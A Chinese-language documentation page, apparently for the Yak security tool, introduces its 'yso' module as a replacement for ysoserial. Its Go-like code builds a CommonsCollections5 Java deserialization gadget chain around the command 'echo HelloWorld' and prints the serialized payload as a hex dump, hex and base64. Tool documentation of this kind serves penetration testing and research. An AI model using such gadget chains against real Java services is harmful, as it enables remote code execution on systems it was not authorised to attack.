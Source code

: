 ---
sidebar_position: 113
---

# Java 反序列化利用链: yso(ysoserial)

Yak 通过非 Java 的方式实现了一整套 Java 反序列化协议。

可以在一定容错限度内劫持绝大部分 Java 反序列化流。

详情参考 [java: java 反序列化协议的 Golang/Yak 实现](/docs/api/java)

## YSoSerial 的 Yak 替代品

在实现了 Java 反序列化协议后，Java 相关漏洞不再需要原生 Java 或硬编码 HEX/Binary 流来实现。

```go
evilCls, err = yso.GetCommonsCollections5("echo HelloWorld")
die(err)

bytes = java.MarshalJavaObjects(evilCls)
hexStr = codec.EncodeToHex(bytes)
base64Str = codec.EncodeBase64(bytes)

dump(bytes)
println(hexStr + "\n")
println(base64Str + "\n")

/*
OUTPUT:

([]uint8) (len=2084 cap=2304) {
 00000000  ac ed 00 05 73 72 00 2e  6a 61 76 61 78 2e 6d 61  |....sr..javax.ma|
 00000010  6e 61 67 65 6d 65 6e 74  2e 42 61 64 41 74 74 72  |nagement.BadAttr|
 00000020  69 62 75 74 65 56 61 6c  75 65 45 78 70 45 78 63  |ibuteValueExpExc|
 00000030  65 70 74 69 6f 6e d4 e7  da ab 63 2d 46 40 02 00  |eption....c-F@..|
                                ......
                                ......
                                ......
                                        c 61 6e 67 2e 4e 75  |xr..java.lang.Nu|
 000007c0  6d 62 65 72 86 ac 95 1d  0b 94 e0 8b 02 00 00 78  |mber...........x|
 000007d0  70 00 00 00 01 73 72 00  11 6a 61 76 61 2e 75 74  |p....sr..java.ut|
 000007e0  69 6c 2e 48 61 73 68 4d  61 70 05 07 da c1 c3 16  |il.HashMap......|
 000007f0  60 d1 03 00 02 46 00 0a  6c 6f 61 64 46 61 63 74  |`....F..loadFact|
 00000800  6f 72 49 00 09 74 68 72  65 73 68 6f 6c 64 78 70  |orI..thresholdxp|
 00000810  3f 40 00 00 00 00 00 00  77 08 00 00 00 10 00 00  |?@......w.......|
 00000820  00 00 78 78                                       |..xx|
}

aced00057372002e6a617661782e6d616e6167656d656e74......c1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f40000000000000770800000010000000007878

rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50LkJhZEF0dHJpYnV0ZVZhbHVlRXhwRXhj......HVleHIAEGphdmEubGFuZy5OdW1iZXKGrJUdC5TgiwIAAHhwAAAAAXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAB3CAAAABAAAAAAeHg=
*/
```